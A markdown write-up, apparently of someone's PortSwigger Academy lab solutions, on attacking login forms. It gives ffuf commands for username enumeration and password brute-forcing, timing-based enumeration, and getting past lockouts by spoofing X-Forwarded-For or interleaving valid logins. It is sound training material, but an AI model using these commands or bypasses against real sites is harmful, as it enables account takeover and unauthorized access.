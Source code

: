 # Authentication

- https://portswigger.net/web-security/authentication/password-based
- https://portswigger.net/web-security/authentication/multi-factor
- https://portswigger.net/web-security/authentication/other-mechanisms

## Username enumeration via different responses

For exact examination of the differences of the requests Burp Intruder or Turbo Intruder could be used. 

But here I simply try to determine if for some username different error than 'Invalid username' is shown:

```
ffuf -u https://0ad9005104c150dd81f343a200e30077.web-security-academy.net/login -w portswigger-wordlists/usernames -d 'username=FUZZ&password=XYZ' -fr 'Invalid username'
```

It reviels one username (`an`) with new error: 'Incorect password'. 

Now time to brute-force the password:

```
ffuf -u https://0ad9005104c150dd81f343a200e30077.web-security-academy.net/login -w portswigger-wordlists/passwords -d 'username=an&password=FUZZ' -fr 'Incorrect'
```

And we manage to log in. Response with correct password could be found by different response size, status or regex for error.

## Username enumeration via subtly different responses

The response status never changes and the size is random, because of analitics ids that are different in every request.

Testing with this command did not return great results:

```
ffuf -u https://0a6a00d7044d695f82c3bbbf003800c4.web-security-academy.net/login -w portswigger-wordlists/usernames -d 'username=FUZZ&password=WongPass'
```

We might try to check if the content of the error message changes, but this time check whole html block with error, to ensure we catch even small differences.

```
ffuf -u https://0a6a00d7044d695f82c3bbbf003800c4.web-security-academy.net/login -w portswigger-wordlists/usernames -d 'username=FUZZ&password=WongPass' -fr '<p class=is\-warning>Invalid username or password\.</p>'
```

Username found (`academico`). 

Testing worng and correct username responses in Burp Proxy and reviewing them in Comparer revieled that error for correct username was 'Invalid username or password', and for incorrect one was 'Invalid username or password.' (Space instead of dot)

Now time to brute-force the password:

```
ffuf -u https://0a6a00d7044d695f82c3bbbf003800c4.web-security-academy.net/login -w portswigger-wordlists/passwords -d 'username=academico&password=FUZZ' -fc 200
```

Looked for different status code than 200 - because on success usually there is a redirect 3xx response - and found a matching password.

## Username enumeration via response timing

Tested making a POST login requests using Burp Interceptor with different params.

- Correct username and correct password - results in fast 302 response
- Correct username and not correct password - results with 200 and error message
- Correct username and very long not correct password - results in 200 with long delay and same error message
- Incorrect both - results in 200 with the same error message

The app probably first check the username and only if it match it checks for the password. Applying long password makes this step significantly longer.

Additionally after multiple error trials, app prevented us for further logging in for 30 minutes. No cookie was set, and the same error occured from different browser, so it may be tied up to my IP.

Adding `X-Forwarded-For: 8.8.8.8` to the request bypassed this protection, overwriting my IP with value here provided for the app.

Run the script to find the username
```
python3 username-enumeration-script-1.py
```

The script was not perfect and could be tuned better. It consistantly retuner `mysql` user for me, so I've decided its enough to go further.

Brute force the password:
```
python3 username-enumeration-script-1-password.py
```

## Broken brute-force protection, IP block

Application show different error if the username is invalid and different when password is. Username enumaration would be easy, but we have username given in the lab description: `carlos`.

After too many failed login you receive error and get blocked from logging in (even with good credentials):

```
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

`X-Forwarder-For` header does not help this time.

Blocking is done after exactly 3 failed login attempts, but after successful login the limit is reset. Sending 2 incorrect password, then correct one, finally allows us to make further guessing tries.

Run script:
```
python3 bypassing-brute-force-protection.py
```

## Username enumeration via account lock

Tried brute-focring username to look for different response size:
```
ffuf -X POST -u 'https://0a9800c203b320a980328fe7008e0016.web-security-academy.net/login' -w portswigger-wordlists/usernames -d 'username=FUZZ&password=WRONGPASSWORD'
```

All of the above had response size of `3132`, so filtering that and running the command 5 more time revieled the username `apple`:

```
ffuf -X POST -u 'https://0a9800c203b320a980328fe7008e0016.web-security-academy.net/login' -w portswigger-wordlists/usernames -d 'username=FUZZ&password=WRONGPASSWORD' -fs 3132
```

Trying to login with this username in the browser revealed the changed error:

```
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

Trying to bruteforce `apple` password could be possible, by waiting 1 minute after every couple of requests, but it would take too long. First I will try to check for differences on responses when username and password are correct even if the account is blocked:

```
ffuf -X POST -u 'https://0a9800c203b320a980328fe7008e0016.web-security-academy.net/login' -w portswigger-wordlists/passwords -d 'username=apple&password=FUZZ'
```

Knowing response size for known errors, flag `-fs 3184,3132` could be added. And as a result we receive the `mustang` password.

Checking this in a browser, when the correct username and password are given and we are in the 1 minute time delay, we would not be logged in, but no error would be retrived.
